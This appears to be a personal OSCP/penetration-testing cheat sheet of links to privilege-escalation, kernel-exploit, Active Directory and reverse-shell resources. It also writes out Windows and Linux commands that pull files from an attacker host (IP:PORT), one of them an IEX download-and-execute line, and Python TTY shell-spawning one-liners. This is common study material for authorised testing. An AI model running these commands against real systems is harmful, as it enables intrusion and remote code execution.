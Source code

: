# My notes

test

###### My cheat sheet notes.

## Python pip

1. Python2 -m pip YOUR_COMMAND

2. Python3 -m pip YOUR_COMMAND

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/shells/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my `Privesc_scripts` repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

[My Privesc Scripts](https://github.com/CalegariMindSec/Privesc_scripts)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)


### Windows PrivEsc CheatSheet

[OSCP_Vini2.ctb (sejalivre.org)](https://sejalivre.org/OSCP/index.html#)

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

### Linux PrivEsc Cheatsheet

[Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

### OSCP Guide

[GitHub - rkhal101/Hack-the-Box-OSCP-Preparation: Hack-the-Box-OSCP-Preparation](https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')"
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://IP:PORT/'FILE)
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Shell Spawning

[Spawning a TTY Shell (netsec.ws)](https://netsec.ws/?p=337)

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell
[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
